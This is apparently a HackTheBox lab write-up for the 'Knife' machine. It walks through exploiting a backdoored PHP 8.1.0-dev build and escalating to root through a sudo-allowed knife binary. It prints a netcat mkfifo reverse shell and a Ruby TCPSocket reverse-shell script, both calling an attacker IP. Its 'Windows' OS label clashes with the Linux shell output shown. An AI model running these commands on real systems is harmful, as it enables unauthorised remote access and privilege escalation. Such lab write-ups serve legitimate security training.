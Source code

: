 #  Knife - HackTheBox WriteUp

OS: Windows 

Difficulty: Easy

IP: 10.10.10.242


### Scanning, Recon & Information Gathering

The penetration test was started by running a quick full TCP nmap scan against the target:

nmap -p- -T4 10.10.10.242

![nmap_quick](../images/knife/nmap.jpg)

#### Service Enumeration 

**Port 80**

![home](../images/knife/home.jpg)

Navigating to the home page and checking the headers via a proxy like burp:

![php 8_1_0-dev](../images/knife/php_version.png)

PHP/8.1.0-dev is identified as PHP version

Searching for exploits:

searchsploit PHP '8.1.0-dev'

![searchsploit_php8_1_0-dev](../images/knife/searchsploit_php810dev.jpg)

Using the exploitt script and running the following commands will lead to a shell on the target:

```
searchsploit -m 49933.py
mv 49933.py php_8_1_0_dev_exploit.py
python3 php_8_1_0_dev_exploit.py http://10.10.10.242/
id
cat /home/james/user.txt
```

![reverse shell](../images/knife/user.jpg)

Using netcat we can get a reverse shell

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.114 443 >/tmp/f```

![reverse shell](../images/knife/rev.jpg)

Privilege Escalation:


Upgrade the terminal using python
```
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
james@knife:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali:/pwn_share/HTB/knife# stty raw -echo
root@kali:/pwn_share/HTB/knife# nc -lnvp 443

james@knife:/$ export TERM=xterm
james@knife:/$
```

Checking for what the user can do with sudo:

```james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Reading the knife help and documentation, we find that it can execute ruby scripts.

```sudo /usr/bin/knife --help```

![knife_help](../images/knife/knife_help.jpg)

creating a script in the /tmp directory with the following contents

```exit if fork;c=TCPSocket.new("10.10.14.114","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end```

This will initiate a reverse shell connection back to the attacker's machine where a listener is running.

All of this can be done using reverse shell generator 

```rsg 10.10.14.114 443 ruby```

And then copying the contents to a new script in /tmp/my.rb

Executing the script
```sudo /usr/bin/knife exec '/tmp/my.rb'```

```
id
cat /root/root.txt
```


![root](../images/knife/root.jpg)
